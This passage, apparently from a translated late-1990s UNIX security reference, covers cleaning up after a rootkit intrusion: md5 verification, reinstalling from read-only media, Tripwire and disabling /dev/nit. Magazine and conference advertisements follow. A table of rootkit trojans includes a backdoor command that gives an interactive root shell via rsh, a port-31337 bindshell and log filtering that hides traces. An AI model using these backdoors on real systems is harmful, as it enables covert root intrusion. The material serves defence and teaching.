- **cpm**：可用于 SunOS 和 Solbourne 主机，以确定机器的以太网接口是否运行在混杂模式（ftp://info.cert.org/pub/tools/cpm/cpm1.0.tar.Z）。为了检查文件完整性，还应该将加密校验和程序 md5 加入这个工具库。

- **zap**：这可能也有用，因为它不是从 utmp/wtmp/lastlog 文件中删除用户，而是用二进制零覆盖这些条目。这样的条目可能表明主机已遭到攻击。

## Rootkit 攻击后的清理工作

一旦发现主机遭到入侵，你必须确定攻击的范围。你必须假定在入侵期间，网络上任何“可见”主机的所有进出网络事务都已被监视，入侵者可能掌握了因此暴露的任何或全部信息。你应该按照下文所述进行恢复并防止未来攻击。

在恢复期间，断开主机与网络的连接，或以单用户模式运行系统。这将防止用户和入侵者访问系统。

表 19.2（续）

| 工具 | 描述 |
| --- | --- |
| top | 这与 Linux 的 ps 程序相同。 |
| rshd | 当本地用户（相对于 rshd 服务器）是 Rootkit 魔法口令时，通过 /bin/sh 以 root 身份运行命令。例如，rsh -l lrk0x victim.org /bin/sh -i 会提供一个交互式 root shell。 |
| syslogd | 过滤包含指定子字符串的日志消息（通过掩码文件）。这可以大大减少入侵者需要在后续访问中掩盖其踪迹所需的工作量。 |
| bindshell | 当你连接到该端口时，将 /bin/sh 绑定到一个套接字（默认为端口 31337）（命令需要以分号 ; 结尾）。 |

定位标准系统程序的特洛伊木马版本可能很困难，你在这样做时应保持谨慎。入侵者可能安装了不属于 Rootkit 的其他特洛伊木马程序；因此，除非从发行介质或软盘备份副本恢复，否则不应信任任何系统实用程序，如前所述。这尤其适用于 sum、cmp 和 ls。

我建议从只读发行介质执行整个系统安装。如果不可行，则应使用已知良好的 md5 副本将所有系统二进制文件与只读发行介质进行比较。由于 Rootkit 安装的特洛伊程序与合法版本具有完全相同的校验和和时间戳，因此这些属性不能用于查找特洛伊程序。然而，加密校验和几乎不可能被伪造。因此，可以信任来自只读软盘备份的 md5，将已安装程序与发行介质或已知正确的校验和进行比较。有关各种 SunOS 版本的加密校验和的详细列表，请参阅 CIAC 公告 E-12 的附录 B。Linux 发行版中流行的“活动文件系统”CD-ROM 也可以使用。

除非明确知道备份是在特洛伊木马安装之前制作的，否则要抵制从备份恢复的诱惑。否则，备份包含特洛伊木马程序而不是合法程序的可能性太大。

预防和消除 Rootkit 攻击的唯一有效的长期解决方案是在协议层使用加密。尽管存在 IP 欺骗，但只要不在网络上传输可重复使用的明文密码，可能就足够了。实现这些目标的相关软件包包括连接加密软件包 ssh（ftp://ftp.cs.hut.fi/pub/ssh/）以及一次性密码软件包 S/KEY（ftp://thumper.bellcore.com/pub/skey/）和 OPIE（ftp://ftp.nrl.navy.mil/pub/security/opie/）。

有几种短期解决方案。简单的方案包括在非开发机器上禁用 C 编译器。事实上，人们普遍认为这对关键服务器是有益的，因为它大大减少了可能被利用的漏洞数量。正确安装和运行 Tripwire（http://coast.cs.purdue.edu/pub/tools/unix/Tripwire/）是一条极好的防线。另一种方法是删除 SunOS 和 Solbourne 主机上的 /dev/nit 设备。这可以通过在注释掉以下几行后重建内核来完成。

```
# The following are for streams NIT support. NIT is used by etherfind,
# traffic, rarpd, and nboot. As a rule of thumb, NIT is almost always
# needed on a server and almost never needed on a diskless client.
#pseudo-device snit        # streams NIT
pseudo-device pf           # packet filter
pseudo-device nbuf         # NIT buffering module
```

有关如何重建内核的详细信息，请参阅你的《系统与网络管理手册》中的“重新配置系统内核”一节。


## 对您所有系统管理问题的答案 UNIX

- 崩溃恢复
- 互联性
- 性能调优
- 备份
- Web 集成
- NT 集成
- 安全
- 以及更多

获取唯一 100% 致力于 UNIX 系统管理的杂志——扎实的技术信息以及提高系统性能和扩展系统功能的方法。常规栏目和部门还为您提供了对重要书籍、新产品发布、升级和职业机会的深入了解。报道涵盖多种平台，包括 Solaris、AIX、HP-UX、SCO、Linux 等。如果您管理系统，Sys Admin 可以为您和您的组织节省时间和金钱。

## Sys Admin UNIX 系统管理员 Linux 的杂志

立即致电获取免费试刊！

一年的及时有效提示和技巧汇聚于一处。

您所需的一切，让您的系统运行得比以往更好！

致电 800-365-2210 或发送电子邮件至 samag@neodata.com 12 期 $39。预付 — $58 加拿大/墨西哥，北美以外 $69 海外订单必须预付

www.samag.com

## 您一直在寻找的解决方案

东北地区唯一面向系统和网络管理员的会议和博览会

- UNIX 和 NT 集成
- Internet/Intranets
- 安全
- 性能
- 产品
- 领域专家
- 与同行交流

1997 年 11 月 10-12 日 · Marriott Marquis · 纽约，NY
您是否渴望解决系统和网络管理挑战的完整解决方案？来参加 SNAC 97，享用由业内专家讲授的每日面临问题的课程的完整菜单。您将品尝到最新的技术和产品，帮助保持复杂系统正常运行。SNAC 97 将您所需的一切营养打包在一个套餐中——会议、博览会和免费午餐，全部位于曼哈顿中心。做出明智选择，参加 SNAC 97。这将是物有所值的时光。

## 在 SNAC ’97 滋养您的大脑！

如需更多信息，请致电 415/655-4395；传真至 415/358-9739；或发送电子邮件至 snac@mfi.com

赞助商：UNIX REVIEW Network


## UNIX 安全

提供系统和网络安全方法的顶级实用建议。由 Sys Admin 杂志编辑部推出，这本桌面参考书专注于系统管理员每天面临的安全问题。每章都是问题和解决方案的完整陈述。所有展示的代码都包含在磁盘上，使这些解决方案易于实施。

UNIX Security 包含十九章，解释了检查用户安全、超时空闲用户、协调密码和组文件、管理超级用户权限、限制机器访问、构建防火墙、登录监控、安全网络连接、远程密码更新、自动化网络维护等方法，以及更多内容。

UNIX Security 是任何希望维护安全 UNIX 系统的系统管理员必备资源。

Sys Admin Essential Reference Series 将 UNIX 系统管理最有用的文章汇集在一起，形成一系列桌面参考书。无需翻阅大量技术手册或多个 man 页面。无论您对 UNIX 系统管理的哪个方面感兴趣，Sys Admin Essential Reference Series 都能清晰简洁地呈现您所需的指导。

Sys Admin 杂志是 UNIX 系统管理员的首选期刊，报道有助于提高 UNIX 系统性能和扩展其功能的话题。Sys Admin 专注于系统级进程，并涵盖跨多种平台的多种 UNIX 版本

## Sys Admin

